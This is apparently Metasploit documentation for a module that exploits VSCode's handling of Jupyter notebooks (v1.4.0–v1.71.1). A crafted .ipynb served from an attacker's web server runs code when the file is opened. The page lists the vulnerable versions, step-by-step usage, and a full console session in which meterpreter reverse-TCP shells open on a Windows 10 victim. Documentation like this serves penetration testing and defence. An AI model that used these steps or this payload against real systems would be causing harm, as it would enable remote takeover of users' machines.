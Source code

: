 ## Vulnerable Application

VSCode when opening an Jupyter notebook (.ipynb) file bypasses the trust model.
On versions v1.4.0 - v1.71.1, its possible for the Jupyter notebook to embed
HTML and javascript, which can then open new terminal windows within VSCode.
Each of these new windows can then execute arbitrary code at startup.

During testing, the first open of the Jupyter notebook resulted in pop-ups
displaying errors of unable to find the payload exe file. The second attempt
at opening the Jupyter notebook would result in successful exeuction.

Successfully tested against VSCode 1.70.2 on Windows 10.

### Install

From https://code.visualstudio.com/updates/v1_70

https://update.code.visualstudio.com/1.70.2/win32-x64-user/stable

https://update.code.visualstudio.com/1.70.2/linux-deb-x64/stable


## Verification Steps

1. Install the application
1. Start msfconsole
1. Do: `use modules/exploits/multi/misc/vscode_ipynb_remote_dev_exec`
1. Do: `set lhost [ip]`
1. Do: `run`
1. In VSCode, open the URL (File -> Open -> Paste/type the URL)
1. After the pop-up errors, open the file again.
1. You should get a shell.

## Options

## Scenarios

### VSCode 1.70.2 on Windows 10

```
resource (ipynb)> use modules/exploits/multi/misc/vscode_ipynb_remote_dev_exec
[*] No payload configured, defaulting to cmd/windows/http/x64/meterpreter/reverse_tcp
resource (ipynb)> set fetch_srvport 9090
fetch_srvport => 9090
resource (ipynb)> rexploit
[*] Reloading module...
[*] Started reverse TCP handler on 192.168.10.147:4444 
[*] Starting up web service...
[*] Using URL: http://192.168.10.147:8080/project.ipynb
[*] Sent project.ipynb to 192.168.10.100
[*] Sent project.ipynb to 192.168.10.100
[*] Sent project.ipynb to 192.168.10.100
[*] Sent project.ipynb to 192.168.10.100
[*] Sent project.ipynb to 192.168.10.100
[*] Sent project.ipynb to 192.168.10.100


[*] Sent project.ipynb to 192.168.10.100
[*] Sent project.ipynb to 192.168.10.100
[*] Sending stage (201798 bytes) to 192.168.10.100
[*] Sending stage (201798 bytes) to 192.168.10.100
[*] Meterpreter session 1 opened (192.168.10.147:4444 -> 192.168.10.100:56964) at 2024-03-21 12:38:13 +0000
[*] Meterpreter session 2 opened (192.168.10.147:4444 -> 192.168.10.100:56967) at 2024-03-21 12:38:14 +0000
^C[-] Exploit failed [user-interrupt]: Interrupt 
[*] Server stopped.
[-] rexploit: Interrupted
msf6 exploit(multi/misc/vscode_ipynb_remote_dev_exec) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > sysinfo
Computer        : DESKTOP-Q0HUOEI
OS              : Windows 10 (10.0 Build 19045).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 4
Meterpreter     : x64/windows
meterpreter > shell
Process 9632 created.
Channel 1 created.
Microsoft Windows [Version 10.0.19045.4170]
(c) Microsoft Corporation. All rights reserved.

C:\Users\h00die>code --version
code --version
1.70.2
e4503b30fc78200f846c62cf8091b76ff5547662
x64

C:\Users\h00die>
```
